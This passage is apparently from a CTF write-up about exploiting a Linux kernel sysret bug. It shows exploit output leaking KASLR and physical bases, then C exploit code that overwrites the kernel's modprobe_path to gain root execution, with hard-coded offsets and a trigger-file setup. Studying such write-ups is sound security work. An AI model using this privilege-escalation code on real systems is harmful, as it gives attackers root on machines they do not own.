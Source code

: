 And boom! KASLR in shambles!

```shell
ctf@corctf:~$ /tmp/exploit
KASLR base ffffffffb5c00000
PHYS base ffff8d9000000000
```

## escalating privileges

With KASLR broken I could set gsbsase to its original value before which gave me a fairly stable way to trigger the sysret bug and survive.

So now the goal is to use the memory corruption from the `error_entry` function I mentioned previously to corrupt some kernel memory with controlled values. I figured that the easiest target would be overwriting `modprobe_path`, a great description of this techinque can be found [here](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/). Basically overwriting this kernel variable with a path to a file I control the contents of will lead to it being executed as root when a file with an unrecognized header is executed.

```c
int main(int argc, char **argv) {
    struct user_regs_struct regs;

    kaslr = prefetch(0) - 0xc00000;
    phys = prefetch(1) - 0x100000000;

    printf("KASLR base %lx\n", kaslr);
    printf("PHYS base %lx\n", phys);

    gsbase = phys + 0x13bc00000;
    printf("gsbase: %#lx\n", gsbase);

    // create trigger file for modprobe
    system("echo -ne \"\xff\xff\xff\xff\" >> /tmp/bad");
    system("chmod 777 /tmp/bad");

    uint64_t modprobe_path = kaslr + 0x103b840;

    // fill registers with new modprobe path
    uint64_t new_modprobe = 0x0000612f706d742f; // /tmp/a
    for (int i = 0; i < sizeof(regs)/sizeof(new_modprobe); i++) {
	    ((uint64_t *)&regs)[i] = new_modprobe;
    }

    // position register dump over modprobe_path
    do_sysret(modprobe_path + 0xa8, &regs);
}
```

I setup the ptrace registers to be filled with the bytes b"/tmp/a\0\0" to overwrite the default `modprobe_path` and triggered the sysret bug with a stack pointer that cause the registers are pushed on top of the `modprobe_path` variable.
